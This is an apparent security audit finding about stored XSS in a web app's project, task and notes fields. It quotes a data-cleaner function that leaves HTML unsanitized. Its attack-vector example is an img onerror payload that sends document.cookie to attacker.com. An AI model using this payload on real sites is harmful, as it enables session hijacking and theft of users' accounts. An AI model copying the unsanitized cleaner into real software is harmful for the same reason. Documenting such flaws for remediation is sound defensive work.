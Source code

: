 
---

### 10. **XSS Risk in User-Generated Content**

**Severity:** MEDIUM
**Location:** Stored content displayed to users
**Risk:** Stored XSS, session hijacking

**Finding:**
User-generated content is stored without sanitization:

**Vulnerable Fields:**

1. Project descriptions
2. Task titles/descriptions
3. Brain dump content
4. Notes content
5. Email generation (admin)

**Current State:**

```typescript
// /routes/api/projects/+server.ts:60
const data = await request.json();

// cleanDataForTable does NOT sanitize HTML
const cleanedData = cleanDataForTable("projects", {
  ...data,
  user_id: user.id,
  // ... description field unsanitized
});
```

**Data Cleaner Analysis:**

```typescript
// /lib/utils/data-cleaner.ts
// Only validates format, does NOT remove HTML/scripts
cleaners = {
  string: (v: any, maxLen?: number): string | null => {
    const str = String(v).trim();
    return maxLen ? str.slice(0, maxLen) : str; // NO SANITIZATION
  },
};
```

**Attack Vector:**

```javascript
// User creates project with description:
{
  "description": "<img src=x onerror='fetch(\"https://attacker.com?cookie=\"+document.cookie)'>"
}

// When another user views the project, XSS executes
// Steals session token
```
